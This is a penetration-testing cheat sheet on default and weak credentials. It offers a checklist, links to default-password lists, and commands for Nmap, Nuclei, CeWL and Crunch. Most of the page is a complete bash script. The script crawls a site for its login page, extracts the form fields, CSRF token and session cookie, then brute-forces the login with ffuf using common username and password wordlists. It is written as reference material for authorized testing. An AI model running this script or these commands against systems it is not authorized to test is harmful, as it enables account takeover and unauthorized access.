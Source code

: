 # Default Credentials

## Check List

* [ ] Determine whether the application has any user accounts with default passwords.
* [ ] Review whether new user accounts are created with weak or predictable passwords.

## Cheat Sheet

### Vendor Default Credentials

#### Default Creds

{% embed url="https://github.com/many-passwords/many-passwords" %}

{% embed url="https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv" %}

{% embed url="https://many-passwords.github.io/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://haveibeenpwned.com/Passwords" %}

{% embed url="https://cirt.net/passwords" %}

#### [Nmap](https://github.com/nnposter/nndefaccts)

```bash
sudo nmap -p80,443 --mtu 5000 --script http-default-accounts $WEBSITE
```

### Organization Default Passwords

{% embed url="https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials" %}

#### [defaultcreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)

```bash
creds search tomcat
```

#### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/tree/main/http/default-logins)

```bash
nuclei -u $WEBSITE -tags default-login
```

### Application Generated Default Passwords

#### [CeWL](https://github.com/digininja/CeWL)

```bash
cewl $WEBSITE --header "Cookie: $COOKIE" -d 5 -m 4
```

#### [Crunch](https://sourceforge.net/projects/crunch-wordlist/)

```bash
crunch 8 12 -t @@company%% -o /tmp/passlist.txt
```

{% hint style="info" %}
`-t` = Password Pattern

`@` = Lowercase Keywords

`,` = Uppercase Keywords

`%` = Digits

`^` = Meta Characters

Example Result: `abcompany12`
{% endhint %}

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano default-bruteforce.sh
```

```bash
#!/bin/bash

# CONFIG
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"

# INPUT CHECK
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"

# FIND LOGIN PAGE
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sed 's:$:/:')

if [ -z "$LOGIN" ]; then
    echo "[!] No login page found. Exiting."
    exit 1
fi

# FETCH HTML
HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA / reCAPTCHA check
CAPTCHA_KEYWORDS="g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"
if echo "$HTML" | grep -qiE "$CAPTCHA_KEYWORDS"; then
    echo "[!] CAPTCHA detected on login page. Brute-force aborted."
    exit 1
fi

# EXTRACT FORM ACTION AND METHOD
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

if [[ "$ACTION" == /* ]]; then
    BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    BASE_URL=$(echo "$LOGIN" | sed 's|\(https\?://.*/\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
fi

# EXTRACT USERNAME & PASSWORD FIELDS
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')

[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF TOKEN EXTRACTION
CSRF_FIELD=""
CSRF_VALUE=""

HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

if [ -z "$CSRF_FIELD" ] && [ -n "$HIDDEN_INPUTS" ]; then
    CSRF_FIELD=$(echo "$HIDDEN_INPUTS" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+' | head -1)
    CSRF_VALUE=$(echo "$HIDDEN_INPUTS" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+' | head -1)
fi

# PREPARE POST DATA
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

# EXTRACT COOKIES
COOKIES=$(curl -s -I "$URL" \
  | grep -i '^Set-Cookie:' \
  | sed -E 's/^Set-Cookie: //I' \
  | cut -d';' -f1 \
  | grep -i 'PHPSESSID')

# Extract only domain and port
HOST=$(echo "$URL" | sed -E 's~^https?://([^/]+).*~\1~')

# HEADERS
HEADERS=(
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
  -H "Accept-Language: en-US,fa-IR;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "Origin: $URL"
  -H "Sec-GPC: 1"
  -H "Connection: keep-alive"
  -H "Referer: $LOGIN"
  -H "Cookie: $COOKIES"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Priority: u=0, i"
)

# RUN FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -X GET \
         -ac -c -r \
         -mc 200 \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200 \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x default-bruteforce.sh;sudo ./default-bruteforce.sh $WEBSITE
```
